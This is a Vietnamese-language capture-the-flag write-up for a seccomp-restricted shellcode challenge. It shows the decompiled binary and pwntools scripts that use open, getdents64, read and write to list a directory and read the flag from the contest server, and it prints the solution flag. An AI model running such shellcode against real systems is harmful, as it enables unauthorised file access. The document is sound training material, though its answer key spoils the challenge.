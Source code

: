 # Message

## Ida

```c 
int __cdecl main(int argc, const char **argv, const char **envp)
{
  void *v4; // [rsp+0h] [rbp-10h]
  void *v5; // [rsp+8h] [rbp-8h]

  v4 = malloc(0x150uLL);
  v5 = mmap(0LL, 0x1000uLL, 7, 34, -1, 0LL);
  setup();
  seccomp_setup();
  if ( v5 != (void *)-1LL && v4 )
  {
    puts("Anything you want to tell me? ");
    read(0, v4, 0x150uLL);
    memcpy(v5, v4, 0x1000uLL);
    ((void (*)(void))v5)();
    free(v4);
    munmap(v5, 0x1000uLL);
    return 0;
  }
  else
  {
    perror("Allocation failed");
    return 1;
  }
}
```

## Analysis and Exploit 
- đây đơn giản là 1 chall shellcode bình thường
- khoan đã nó có hàm seccomp, ta dùng seccomp tool kiểm tra xem sao 

![image](https://github.com/gookoosss/CTF/assets/128712571/97ecc24e-6777-452e-b095-6e69c5097052)


- chall chỉ cho phép ta dùng 4 syscall read, write, open, getdens64
- khác với mấy chall khác thì chall này ko cho ta địa chỉ chứa flag => suy ra ta phải tự tìm địa chỉ chứa flag
- syscall getdens64 khá lạ nên ta sẽ cùng tìm hiểu 

![image](https://github.com/gookoosss/CTF/assets/128712571/6fbb29a5-8f74-43ca-b351-dac257a44702)


- à getdens64 dùng để đọc các file trong thư mục, hmm nếu vậy ta có thể dễ hình dung thì nó tương tự như lệnh ls 

![image](https://github.com/gookoosss/CTF/assets/128712571/0d5bfcac-c337-4ffa-859d-bd488aa2e0d5)



- sau khi tham khảo wu thì mình cũng biết cách để sử dụng syscall getdens64 kết hợp với open, write để tìm ra địa chỉ file chứa flag

```python 
from pwn import *
import os

context.arch = 'amd64'

p = remote('ctf.tcp1p.com', 8008)
payload = asm(shellcraft.open('./', os.O_DIRECTORY))
payload += asm(shellcraft.getdents64(3, 'rsp', 0x100))
payload += asm(shellcraft.write(1, 'rsp', 0x100))
p.send(payload)
p.interactive()
```

**theo mình hiểu đơn giản thì:**
- Sử dụng shellcraft.open để mở thư mục hiện tại (./) dưới dạng một file descriptor và thư mục bằng cách sử dụng O_DIRECTORY.
- shellcraft.getdents64 để lấy các mục trong thư mục từ file descriptor và lưu kết quả vào con trỏ stack (rsp) với kích thước buffer là 0x100 byte.
- shellcraft.write để ghi các mục thư mục đã lấy ra  đầu từ con trỏ stack (rsp) với kích thước 0x100 byte.

![image](https://github.com/gookoosss/CTF/assets/128712571/1a6e9d05-9ebd-4581-be0e-aca8d759bef8)


- soi kĩ thì thấy có file tên flag-3462d01f8e1bcc0d8318c4ec420dd482a82bd8b650d1e43bfc4671cf9856ee90.txt, khả năng cao file này chứa flag
- kết hợp 3 syscall open, read, write để thử lấy flag 

```python 
payload = asm(shellcraft.open('flag-3462d01f8e1bcc0d8318c4ec420dd482a82bd8b650d1e43bfc4671cf9856ee90.txt'))
payload += asm(shellcraft.read(3, 'rsp', 0x100))
payload += asm(shellcraft.write(1, 'rsp', 0x100))

r.send(payload)
```
- và cuối cùng ta cũng lấy được flag 

![image](https://github.com/gookoosss/CTF/assets/128712571/084a6ff0-09cb-40fc-a384-9408ab8d20c5)



## script

```python 
from pwn import *
import os

context.arch = 'amd64'


r = remote('ctf.tcp1p.com', 8008)
# payload = asm(shellcraft.open('./', os.O_DIRECTORY))
# payload += asm(shellcraft.getdents64(3, 'rsp', 0x100))
# payload += asm(shellcraft.write(1, 'rsp', 0x100))

payload = asm(shellcraft.open('flag-3462d01f8e1bcc0d8318c4ec420dd482a82bd8b650d1e43bfc4671cf9856ee90.txt'))
payload += asm(shellcraft.read(3, 'rsp', 0x100))
payload += asm(shellcraft.write(1, 'rsp', 0x100))

r.send(payload)
r.interactive()

#TCP1P{I_pr3fer_to_SAY_ORGW_rather_th4n_OGRW_d0nt_y0u_th1nk_so??}
```

## Flag

TCP1P{I_pr3fer_to_SAY_ORGW_rather_th4n_OGRW_d0nt_y0u_th1nk_so??}


